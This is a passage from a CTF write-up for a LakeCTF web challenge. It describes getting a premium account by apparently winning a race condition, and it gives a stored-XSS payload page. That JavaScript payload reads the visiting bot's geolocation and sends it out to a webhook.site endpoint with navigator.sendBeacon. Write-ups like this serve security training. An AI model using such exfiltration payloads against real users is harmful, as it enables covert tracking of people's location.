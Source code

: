 Uhh... Ultimately, we have to become a premium user...

## Exploitation

### Unintended Premium Account

After endless of banging me and my teammates head into the wall, **we somehow... got registered a random account that is a premium account:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LakeCTF-Quals-23/images/Pasted%20image%2020231106151844.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LakeCTF-Quals-23/images/Pasted%20image%2020231106151903.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LakeCTF-Quals-23/images/Pasted%20image%2020231106151950.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LakeCTF-Quals-23/images/Pasted%20image%2020231106003132.png)

> Note: After the CTF ends, "strellic" posted the first part of the unintended solution:
> 
> ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LakeCTF-Quals-23/images/Pasted%20image%2020231106152436.png)
> 
> Maybe we just got lucky that we accidentally won the race condition during bot's premium PIN submission :D 

After we got an account that is a premium account, we can easily geolocate the bot and submit the correct latitude and longitude by exploiting the stored XSS vulnerability in route `/chalelnge`.

### Geolocate the Bot With Stored XSS

- **Setup a static web server that hosting this `payload.html` geolocate JavaScript code:**

```html
<!doctype html>
<html>
  <body>
    <script>
      function sendDataToWebhook(bodyData) {
        navigator.sendBeacon("https://webhook.site/<your_token>", bodyData);
      }
      function onsuccess(position) {
        sendDataToWebhook(`${position.coords.longitude} ${position.coords.latitude}`);    
      }
      function onerror(error) {
        sendDataToWebhook(`${error.code} ${error.message}`);
      }

      function geolocate(){
        navigator.geolocation.getCurrentPosition(onsuccess, onerror, {enableHighAccuracy:true});
      }
      
      geolocate()
    </script>
  </body>
</html>
```
